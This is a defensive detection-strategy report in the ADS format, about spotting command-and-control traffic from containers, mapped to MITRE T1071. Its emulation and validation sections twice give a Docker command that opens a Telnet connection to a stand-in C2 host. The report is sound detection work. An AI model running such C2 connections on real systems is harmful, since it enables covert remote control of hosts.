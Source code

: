 # Alerting & Detection Strategy: Detect Adversarial Attempts to Bypass Security Monitoring Using Containers

## Goal
This technique aims to detect adversarial attempts to bypass security monitoring by exploiting container technologies. Specifically, it focuses on identifying malicious activities that leverage application layer protocols within container environments.

## Categorization
- **MITRE ATT&CK Mapping:** T1071 - Application Layer Protocol
- **Tactic / Kill Chain Phases:** Command and Control
- **Platforms:** Linux, macOS, Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1071)

## Strategy Abstract
The detection strategy involves monitoring container activities to identify anomalous application layer protocol usage. Key data sources include network traffic logs, container runtime metrics, and system event logs. Patterns analyzed involve unusual communication channels or unexpected protocol behavior within containers, which may indicate an attempt to establish Command and Control (C2) channels.

## Technical Context
Adversaries exploit container environments by using legitimate protocols in a malicious manner. They might run command-and-control servers within containers to evade traditional network security monitoring tools. Adversary emulation can include setting up Telnet-based C2 channels, where containers are configured to connect to external C2 servers using application layer protocols.

### Adversary Emulation Details
- **Sample Commands:**
  - Launching a containerized Telnet client to communicate with an external C2 server.
  - Example: `docker run --rm alpine telnet c2.example.com 4444`

## Blind Spots and Assumptions
- **Blind Spots:** 
  - Encrypted communication channels may obscure malicious activities.
  - High-privilege user operations within containers could bypass some monitoring controls.

- **Assumptions:**
  - Network traffic logs are comprehensive and accurately capture all container-related communications.
  - Container runtime environments are fully monitored and integrated with security tools.

## False Positives
Potential benign activities that might trigger false alerts include:
- Legitimate use of application layer protocols for development or testing purposes within containers.
- Misconfigured applications that inadvertently establish unusual network connections.

## Priority
**Priority: High**

Justification: The ability to bypass traditional security monitoring using container technologies poses a significant risk. Containers are widely used in modern IT environments, making this vector highly attractive to adversaries.

## Validation (Adversary Emulation)
### Step-by-Step Instructions

1. **Set Up Environment:**
   - Ensure Docker is installed and running on your test system.
   - Prepare a container image that includes networking tools like `telnet`.

2. **Launch Telnet C2 Simulation:**
   - Run the following command to start a containerized Telnet client:
     ```bash
     docker run --rm alpine telnet c2.example.com 4444
     ```

3. **Monitor Network Traffic:**
   - Use network monitoring tools to capture and analyze traffic from the container.
   - Look for unusual connections or data patterns indicative of C2 activity.

## Response
When an alert fires:
- **Immediate Actions:**
  - Isolate the affected container(s) from the network to prevent further communication with potential C2 servers.
  - Capture and preserve network logs for forensic analysis.

- **Investigation Steps:**
  - Analyze container configurations and running processes to identify any unauthorized changes or activities.
  - Review system event logs for related indicators of compromise (IOCs).

- **Remediation:**
  - Remove malicious containers and restore affected systems from known good backups if necessary.
  - Update security policies and monitoring rules to prevent similar incidents.

## Additional Resources
Additional references and context:
- None available

---

This report outlines a comprehensive strategy for detecting adversarial attempts to bypass security monitoring using container technologies, following the ADS framework.